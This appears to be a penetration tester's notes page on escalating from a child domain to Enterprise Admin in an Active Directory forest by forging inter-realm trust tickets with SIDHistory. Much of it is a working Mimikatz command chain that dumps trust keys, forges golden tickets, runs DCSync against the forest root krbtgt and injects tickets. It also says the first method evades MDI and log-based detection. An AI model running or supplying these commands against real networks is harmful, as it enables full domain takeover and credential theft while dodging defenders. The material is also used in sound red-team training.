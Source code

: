 
In step 3, the follow.0xd4y_notes.local DC checks its global catalog for the app server the client is requesting. The DC then sees that the app server does note exist in its own global catalog, but it does exist in the parent domain, so it sends an inter-realm TGT (encrypted and signed with the trust key) to the client.

In step 5, the inter-realm TGT is sent to the 0xd4y_notes.local DC whose only validation for the TGT is whether or not it can decrypt it with the trust key (the same key used to encrypt the TGT). Therefore, we forge an inter-realm TGT wherein we write that there is a SIDHistory of Enterprise Admins (519).

- in the case when the trust is between two different forests, the last part of the SID is stripped as long as it is between 500 to 1000
    - any ticket that crosses forest trust boundary will therefore not be privileged
    - this means it is not possible to escalate to EA across forest trusts by abusing SIDHistory

### Trust Tickets

- when compromising a domain, you can craft golden tickets destined for other domains within the forest
- no effective defense against this (works as intended)
    - a compromise of one DC in a forest is enough to assume that the forest is fully compromised
- note that managed service accounts end with a dollar sign ($)
- note the first method is the most opsec safe and still bypasses MDI and log-based detections

```powershell
# First method of getting trust ticket RC4 hash (run within DC)
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName follow-dc

## Then, forge a TGT (First method)
	Invoke-Mimikatz -Command '"kerberos::golden /user:0xd4y-dc$ /domain:<CURRENT_CHILD_DOMAIN> /sid:<CURRENT_CHILD_DOMAIN_SID> /groups:516 /sids:<PARENT_ENTERPRISE_ADMIN_GROUP_SID>-519 /krbtgt:<KRBTGT_HASH> /ptt"'

### Finally run a dcsync attack (you can use SafetyKatz instead of Invoke-Mimikatz just make sure to leave out "-Command" from command)
Invoke-Mimikatz -Command "lsadump::dcsync /user:forest_root\krbtgt /domain:0xd4y.local" "exit"

# Second method of getting trust ticket RC4 hash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:notes\subscribe_0xd4y$"'

## Then, forge a TGT (Second method)
Invoke-Mimikatz -Command '"kerberos::golden /user:0xd4y-dc$ /domain:<CHILD_DOMAIN> /sid:<CURRENT_DOMAIN_SID> /sids:<PARENT_ENTERPRISE_ADMIN_GROUP_SID>-519 /rc4:<TRUST_TICKET> /service:krbtgt /target:<FOREST_ROOT_DOMAIN> /ticket:C:\PATH\TO\SAVE\trust_tkt.kirbi"'

### Afterwards, request a TGS to a service using the TGT
.\asktgs.exe C:\PATH\TO\trust_tkt.kirbi <SERVICE>/youtube_subscribe.0xd4y_notes.local
#### Note you can also run Invoke-Mimikatz -Command '"kerberos::ptt C:\PATH\TO\ticket.kirbi"'. This will also automatically inject the ticket into your current session.

#### Finally, inject the TGS in your current powershell session
.\kirbikator.exe lsa C:\PATH\TO\TGS.kirbi
```
